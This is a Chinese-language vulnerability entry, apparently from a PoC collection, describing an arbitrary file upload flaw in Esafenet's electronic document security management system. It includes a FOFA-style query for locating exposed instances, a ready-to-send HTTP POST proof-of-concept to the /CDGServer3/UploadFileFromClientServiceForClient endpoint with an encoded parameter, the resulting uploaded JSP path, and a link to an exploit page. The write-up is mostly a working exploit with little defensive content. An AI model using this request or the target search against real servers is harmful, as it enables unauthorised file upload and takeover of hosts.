

# 亿赛通 电子文档安全管理系统 UploadFileFromClientServiceForClient 任意文件上传漏洞

## 漏洞描述

亿赛通 电子文档安全管理系统 UploadFileFromClientServiceForClient 接口存在任意文件上传漏洞，攻击者通过漏洞可以上传任意文件到服务器中，获取主机权限

## 漏洞影响

<a-checkbox checked>亿赛通 电子文档安全管理系统</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="亿赛通-电子文档安全管理系统"</a-checkbox></br>

## 漏洞复现

登录页面


验证POC

```plain
POST /CDGServer3/UploadFileFromClientServiceForClient?AFMALANMJCEOENIBDJMKFHBANGEPKHNOFJBMIFJPFNKFOKHJNMLCOIDDJGNEIPOLOKGAFAFJHDEJPHEPLFJHDGPBNELNFIICGFNGEOEFBKCDDCGJEPIKFHJFAOOHJEPNNCLFHDAFDNCGBAEELJFFHABJPDPIEEMIBOECDMDLEPBJGBGCGLEMBDFAGOGM HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: */*
Content-Length: 1

Test
```



```plain
/tttT.jsp
```

## 参考链接

<a-checkbox checked>https://github.com/di0xide-U/YSTupload/blob/main/exp.md</a-checkbox></br>